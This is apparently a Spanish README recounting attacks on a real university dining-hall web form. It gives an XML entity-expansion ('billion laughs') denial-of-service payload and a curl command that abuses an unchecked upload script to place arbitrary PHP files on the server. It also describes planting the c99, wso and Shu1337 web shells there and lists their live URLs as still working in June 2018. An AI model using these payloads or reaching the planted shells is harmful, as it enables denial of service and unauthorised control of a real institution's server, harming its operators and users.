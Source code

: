 ```sh
<!ENTITY lol1 "%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;">
<!ENTITY lol2 "%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;">
]>
<root>
<row id_elems="nombre">Yolo</row>
<row> %26lol2;%26lol2;%26lol2;%26lol2;%26lol2; </row>
</root>
```


### Upload file

Esto es del [formulario](http://comedor.unc.edu.ar/formulario/), 
el chequeo del tipo de foto se hace por un lado,
y por otro lado `upload.php` guarda directamente lo que le mandes.

```bash
f=file.php # Cualquier archivo
curl -i -F foto=@$f http://comedor.unc.edu.ar/formulario/php/upload.php --http1.0

# Esto sube el archivo $f en:
curl "http://comedor.unc.edu.ar/formulario/no-cargados/img/$f"
```


### Code Injection

Usando lo de arriba, podemos subir código `.php`, y por motivos solamente
nostálgicos, en este repo dejé [tutturu.jpg.php](./tutturu.jpg.php)
que es el primer código _php_ que escribí para subirlo al servidor.

A Junio de 2018, sigue en el servidor ❤:

http://comedor.unc.edu.ar/formulario/no-cargados/img/tutturu.jpg.php?param=Onii-Chan


### Shells

Esta es la parte mas loca. Existen bastantes shells escritas en PHP para poder
jugar y explorar todo el sistema operativo del servidor.

Con los que más tiempo estuve jugando son [c99.php](./c99.php) y 
[wso.php](./wso.php). Recomiendo seguir con `wso` que anda mejor.

A Junio de 2018, siguen en el servidor:
* http://comedor.unc.edu.ar/formulario/no-cargados/c99.php
* http://comedor.unc.edu.ar/formulario/no-cargados/wso.php
* http://comedor.unc.edu.ar/formulario/no-cargados/Shu1337.php

Hay algunos más en `formulario/no-cargados/img/*.php`

